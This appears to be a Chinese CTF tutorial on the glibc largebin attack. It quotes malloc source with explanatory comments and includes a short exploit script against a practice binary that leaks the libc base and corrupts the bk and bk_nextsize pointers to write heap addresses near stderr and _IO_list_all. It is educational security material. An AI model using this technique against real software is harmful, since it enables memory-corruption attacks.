




# largebin attack

## 1.基本原理

largebin 用来收容超过 0x400 大小以上的 chunk(64 位)，其是一个双向链表，一共可以容纳 63 个 chunk，对于链表对应存储 chunk 的大小没有明确规定，而是规定了一个范围，根据具体的数值可以分为 6 组:

| 组   | 数量 | 差值            |
| ---- | ---- | --------------- |
| 1    | 32   | 64(0x40)        |
| 2    | 16   | 512(0x200)      |
| 3    | 8    | 4096(0x1000)    |
| 4    | 4    | 32768(0x8000)   |
| 5    | 2    | 262144(0x40000) |
| 6    | 1    | 无限制          |

下面代码片段是在 _int_malloc 中 unsortedbin 循环取出 chunk 的代码：victim 为从 unsortedbin 中取出的 chunk

```c
if (in_smallbin_range (size))
{
  victim_index = smallbin_index (size);
  bck = bin_at (av, victim_index);
  fwd = bck->fd;
}
else
{
  victim_index = largebin_index (size);
  bck = bin_at (av, victim_index);
  fwd = bck->fd;

  /* maintain large bins in sorted order */
  if (fwd != bck) // 当第一个不等于后一个（即当前的 largebin 不空）
    {
      /* Or with inuse bit to speed comparisons */
      size |= PREV_INUSE;
      /* if smaller than smallest, bypass loop below */
      assert (chunk_main_arena (bck->bk));
      if ((unsigned long) (size)
  < (unsigned long) chunksize_nomask (bck->bk)) // bck-> bk 储存的是当前索引的 largebin 中大小最小的 chunk，如果我们要插入的 chunk 比这个大小还小，那么就要插入 largebin 的尾部
        {
          fwd = bck;
          bck = bck->bk;

          victim->fd_nextsize = fwd->fd;
          victim->bk_nextsize = fwd->fd->bk_nextsize;
          fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
        }
      else // 如果不是插入尾部，那么我们要找到这个 chunk 应该插入的位置
        {
          assert (chunk_main_arena (fwd));
          while ((unsigned long) size < chunksize_nomask (fwd))
            {
              fwd = fwd->fd_nextsize;
  assert (chunk_main_arena (fwd));
            }

          if ((unsigned long) size
  == (unsigned long) chunksize_nomask (fwd)) // 如果找到了相等的
            /* Always insert in the second position.  */
            fwd = fwd->fd;
          else //如果大小不一样，构造双向链表
            {
              victim->fd_nextsize = fwd;
              victim->bk_nextsize = fwd->bk_nextsize;
              fwd->bk_nextsize = victim;
              victim->bk_nextsize->fd_nextsize = victim;
            }
          bck = fwd->bk;
        }
    }
  else
    victim->fd_nextsize = victim->bk_nextsize = victim;
}

mark_bin (av, victim_index);
victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;
bck->fd = victim;
```

largebin attack 就是通过修改位于 largebin 的 chunk 的指针，然后让其它的 chunk 进入 largebin，借助链表操作在目标地址处写入一个堆的地址

largebin 可以利用的指针有 bk 和 bk_nextsize

glibc-2.30 之前，由于 chunk 链入 largebin 的过程中缺乏对 bk 和 bk_nextsize 指针的检查，因此可以通过修改 bk 和 bk_nextsize 指针进行两处任意地址写

glibc-2.30 及以上版本中，只能利用 largebin attack 来写一个地址

glibc-2.30 开始如果加入的 chunk 不是最小的则在插入链表时会对 bk 指针进行检查

```c
if (bck->fd != fwd)
	malloc_printerr ("malloc(): largebin double linked list corrupted (bk)");
```

重点关注上面的大小不一样的这部分代码：

```c
else
{
    victim->fd_nextsize = fwd;
    victim->bk_nextsize = fwd->bk_nextsize;
    fwd->bk_nextsize = victim;
    victim->bk_nextsize->fd_nextsize = victim;
}

bck = fwd->bk;

victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;
bck->fd = victim;
```

如果劫持一个 largebin 中一个在同等大小 chunk 中 bk 方向最靠前的 chunk 的 bk 和 bk_nextsize 然后 **释放一个比该 chunk 稍大一些的 chunk** 就可以实现下图所示效果：

* 主要是 victim 的 fd 和 fd_nextsize 都指向最靠前的 chunk，bk 和 bk_nextsize 分别指向 fakechunk1 和 fakechunk2，同时 fakechunk1 的 fd 和 fakechunk2 的 fd_nextsize 都指向释放的 chunk，也就是存了同一个堆地址




## 2.利用思路

漏洞程序参考漏洞程序参考 unsortedbin leak 的测试程序

```c
add_chunk(0, 0x400)
add_chunk(1, 0x10)
add_chunk(2, 0x410)
add_chunk(3, 0x10)

# leak libc
delete_chunk(0)
add_chunk(0, 0x400)
show_chunk(0)
main_arena_addr = u64Leakbase(0)
li("main_arena_addr", main_arena_addr)
libc_addr = main_arena_addr - 0x3c4b78
libc.address = libc_addr
li("libc_addr", libc_addr)
li("stderr", libc.sym["stderr"])
li("_IO_list_all", libc.sym["_IO_list_all"])

delete_chunk(0)
add_chunk(4, 0x500)

payload = b""
payload += p64(0)
payload += p64(libc.sym["stderr"] - 0x10)
payload += p64(0)
payload += p64(libc.sym["_IO_list_all"] - 0x20)
edit_chunk(0, payload)

delete_chunk(2)
add_chunk(0, 0x500)

it()
```

执行完后调试可以看到 pwndbg 的插件已经崩溃无法识别了，bk 指向的是最后释放的 chunk，其 bk 和 bk_nextsize 分别指向 fakechunk，而两个 fakechunk 中又保存了堆地址





调试分析 bck 到底是什么：


